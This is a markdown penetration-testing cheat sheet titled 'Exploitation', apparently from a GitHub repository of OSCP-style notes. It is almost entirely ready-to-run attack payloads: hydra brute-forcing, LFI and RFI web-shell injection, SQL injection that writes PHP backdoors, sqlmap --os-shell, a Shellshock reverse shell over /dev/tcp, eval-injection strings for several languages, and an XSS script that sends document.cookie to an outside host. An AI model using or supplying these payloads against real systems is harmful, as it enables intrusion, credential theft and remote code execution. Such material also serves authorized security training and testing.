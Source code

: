 # Exploitation

## Credentials

Create Passwd Directory for Brute Force

``` bash
cewl -m 5 http://$ip/joomla/ > passwd.txt
```

Default Credentials

``` bash
ls /usr/share/seclists/Passwords/Default-Credentials
```

Crack hash

``` bash
john hash --wordlist=/home/kali/tools/directory/rockyou.txt
```

Broute force

``` bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.169.106 --http-post-form '/login:user=^USER^,pass=^PASS^:Unauthorized'
```

## Directory Traversal

Unix

``` bash
/etc/passwd
```

Windows

```
c:\windows\system32\drivers\etc\hosts
```

## PHP Wrappers

Inject php code via plantext 

``` bash
http://ip/file.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

Inject php code via base64

``` bash
http://ip/file.php?file=data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=dir
```

Encode base64 file before read it.

``` bash
http://ip/file.php?file=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

## File Inclusion

### Local File Inclusion

Null byte: `%00`

Write payload to `access.log` file

``` bash
$ nc -nv 192.168.11.131 80
(UNKNOWN) [192.168.11.131] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

Get RCE via file inclusion

``` bash
curl http://192.168.11.131/file.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Remote File Inclusion

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

``` bash
curl http://target/?page=http://$ip/backdoor.txt&cmd=id
```

## SQL Injection

### Authentication Bypass

``` bash
admin' or 1=1 LIMIT 1;#
```

### Enumerating the Database

``` bash
order by 3
```

``` bash
union all select 1, 2, 3
```

``` bash
union all select 1, @@version, 3
```

``` bash
union all select 1, table_name from information_schema.tables, 3
```

``` bash
union all select 1, column_name from information_schema.columns where table_name='users', 3
```

``` bash
union all select 1, username, password from users
```

### SQLi to Code Execution

Read file

``` bash
union all select 1, load_file('C:/Windows/System32/drivers/etc/hosts'), 3
```

Write backdoor

``` bash
union all select 1, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php', 3
```

``` bash
priority=Normal' UNION SELECT ('<?php echo exec($_GET["c"]);') INTO OUTFILE '/srv/http/c.php'; -- -
```

### Automating SQL Injection

sqlmap

1. B: Boolean-based blind
2. E: Error-based
3. U: Union query-based
4. S: Stacked queries
5. T: Time-based blind
6. Q: Inline queries

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id"
```

dump databases

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id" --dbms=mysql --dump
```

execute a shell

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

file post

``` bash
sqlmap -r req --dbms mysql -p limit --level 3 --batch --technique=S --os-shell
```

## <a href='https://github.com/mubix/shellshocker-pocs' target="blank">Shellshock POC</a>

``` bash
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/$myip/445 0>&1'" http://$ip/cgi-bin/user.sh
```

## Command Execution

```bash
;id
`id`
$(id)
```

## Code Execution

Ruby 

``` bash
eval "\""+params['1']+"\""

?1="%2b`id`%2b"
```

Python

``` bash
eval('"'+1+'"')

"%2bos.system('id')%2b"

"%2bos.popen('id').read()%2b"

"%2b__import__('os').popen('id').read()%2b"

"%2b__import__('os').popen(__import__('base64').b64decode('aWQ=')).read()%2b"
```

Perl

``` bash
eval("return '".$FORM{1}."'");

/cgi-bin/form?1='.`id`.'
```

PHP

<a href='https://www.php.net/manual/en/function.eval.php' target="blank">eval()</a>

``` bash
$s="echo \"".$_GET['1']."\";";

eval($s);

?1=".system('id')."
```

usort()

``` bash
$1 = $_GET["1"];

usort(function('$a, $b', 'return strcmp($a->'.$1.',$b->'.$1.');'));

?1=id);}system('id');//
```

preg_replace()

``` bash
preg_replace($_GET["1"], $_GET["2"], $_GET["3"]);

?1=/x/e&2=system('id')&3=x
```

assert()

``` bash
assert(trim("'".$_GET['1']."'"));

echo htmlentities($_GET['1']);

?1=hacker'.system('id').'
```

## XSS Basic Exploit

Break code

``` bash
< > ' " { } ;
```

Content Injection

```
<iframe src=http://ip/report height="0" width="0"></iframe>
```

Stealing Cookies and Session Information

```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```